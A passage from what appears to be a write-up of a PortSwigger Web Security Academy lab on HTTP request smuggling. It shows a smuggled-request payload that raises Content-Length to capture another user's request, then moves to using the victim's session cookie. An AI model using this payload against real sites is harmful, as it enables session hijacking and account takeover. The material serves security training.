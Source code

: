 Nice! However, we only captured some victim's request.

**To fix that, we can update the `Content-Length` header's value in the `body`, let say `1000`:**
```js
body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net\r\nCookie: session=E4JOQg3Yw8TCcboDgbxPSXniXUhi3xPV; _lab_analytics=byZLPF2FM2lpAH83Zz10U7gegQLjKUOJ5EqrlWt6lJSDmy1MspH8ivSU2LDwwlBnQyc4KKombwOqK47ap4jiLqNvYPXKRYhK2TvoyMHnw0HQw8boBEskuySc50lCaIr0K2oOceavIp2n7qn6YKkLoAtfdcsvl7IMwNbJnpZXuK2cIdQ6VXMo6NNQU9AdPMPwJg3tEV0pPMNvg5LNiDDkng8HIOaZDWXrZdKN638WfavVs3dqnxIXalYJZ9qunper\r\nContent-Length: 1000\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=ad2JMc779PxfzUrbiVP2FIz4QrGCCwt3&postId=2&name=tester&email=test@test.com&website=&comment=', // malicious prefix
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226145542.png)

**Yes! Now we can modify our session cookie to the victim ones:**

